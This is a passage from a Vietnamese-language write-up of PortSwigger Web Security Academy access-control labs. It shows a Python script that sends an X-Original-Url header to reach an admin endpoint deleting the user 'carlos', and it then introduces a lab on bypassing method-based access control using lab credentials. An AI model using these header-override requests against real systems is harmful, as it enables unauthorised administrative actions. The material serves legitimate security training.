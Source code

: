 mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0af30018040d749280dabcb2006a0070.web-security-academy.net'

headers = {
    'X-Original-Url': '/admin/delete?username=carlos',
}

params = {
    'username': 'carlos',
}

response = requests.get(
    url + '/login',
    params=params,
    headers=headers,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)

```

mục đích của chúng ta đã hoàn thành và mình cũng giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SkAZBrpF6.png)

## 11. Lab: Method-based access control can be circumvented

link: https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented

### Đề bài

![image](https://hackmd.io/_uploads/SkJ-IHpKa.png)

### Phân tích

<li>Chúng ta được cung cập một tài khoản có vai trò administrator là administrator:admin giúp thu thập các thông tin hữu ích liên quan tới upgrade một tài khoản lên quyền quản trị viên. Chúng ta cần khai thác lỗ hổng trong HTTP reuqest method để upgrade tài khoản wiener:peter lên quyền admin.</li>
